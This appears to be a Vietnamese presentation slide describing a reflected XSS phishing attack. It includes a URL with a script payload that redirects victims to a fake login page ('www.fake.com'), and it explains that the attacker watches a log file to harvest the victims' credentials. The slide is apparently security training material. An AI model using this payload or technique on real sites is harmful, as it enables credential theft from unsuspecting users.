

Đánh lừa nạn nhân truy cập vào trang web có dính lỗi xss , và thực hiện chuyển hướng đến trang đăng nhập giả mạo .
https://www.sourceyard.com/bob/blender/issues?query=<script>document.location = 'www.fake.com';</script>
Cuối cùng chỉ cần theo dõi file log chờ nạn nhân thực hiện đăng nhập và có được account của họ.